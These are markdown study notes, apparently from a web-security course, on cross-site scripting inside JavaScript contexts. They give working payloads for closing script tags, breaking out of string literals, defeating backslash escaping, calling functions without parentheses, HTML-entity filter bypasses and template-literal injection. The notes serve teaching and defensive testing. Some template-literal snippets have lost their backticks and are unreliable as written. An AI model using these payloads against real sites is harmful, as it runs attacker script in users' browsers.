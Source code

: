 # 22. XSS into JavaScript

## 💥 XSS in Existing JavaScript Contexts

When the XSS context is **inside existing JavaScript** within a response, different attack techniques are needed depending on the situation.

---

### 🛑 Terminating the Existing Script

If possible, close the existing `<script>` tag and insert new HTML tags that trigger JavaScript execution.

**Example context:**

```jsx
<script>
...
var input = 'controllable data here';
...
</script>
```

**Payload to break out:**

```jsx
</script><img src=1 onerror=alert(document.domain)>
```

> The browser first parses HTML (including <script> blocks), then executes JavaScript. The broken script leaves an unterminated string but does not prevent the injected script from running.
> 

---

### 🪢 Breaking Out of a JavaScript String Literal

If your injection point is inside a quoted string, break out of the string carefully and fix the syntax afterward.

**Useful payloads:**

```jsx
'-alert(document.domain)-'
';alert(document.domain)//
```

### 🔄 Bypassing Escaped Quotes with Backslashes

When applications escape single quotes (`'`) with a backslash (`\`), you can neutralize that by injecting your own backslash.

- Input:

```jsx
';alert(document.domain)//
```

- Application escapes to:

```
\';alert(document.domain)//
```

- You inject:

```
\';alert(document.domain)//
```

- This becomes:

```
\\';alert(document.domain)//
```

The first `\` escapes the second `\`, so the quote `'` is now interpreted as a string terminator, allowing the attack.

---

### 🛡️ Character Restrictions and Alternative Execution

If characters are restricted by the site or WAF, try alternative execution methods:

- Use `throw` with an exception handler to call functions **without parentheses**.

**Example:**

```jsx
onerror=alert;throw 1
```

- This assigns `alert()` to the global exception handler; `throw 1` invokes it with `1`.

> More about calling functions without parentheses here.
> 

---

### 🧩 Using HTML-Encoding to Bypass Filters

When inside quoted tag attributes (like event handlers), use HTML entities to bypass filtering.

**Example context:**

```jsx
<a href="#" onclick="... var input='controllable data here'; ...">
```

**Payload if single quotes are blocked:**

```
&apos;-alert(document.domain)-&apos;
```

- The browser decodes `&apos;` to `'` before executing JavaScript, allowing string termination and code execution.

---

### 📜 XSS in JavaScript Template Literals

Template literals use backticks (```) and `${...}` syntax for embedded expressions.

**Example:**

```jsx
document.getElementById('message').innerText = Welcome, ${user.displayName}.;
```

If the XSS context is inside a template literal:

```jsx
<script>
...
var input = controllable data here;
...
</script>
```

You can inject a payload without terminating the literal, using `${...}`:

```jsx
${alert(document.domain)}
```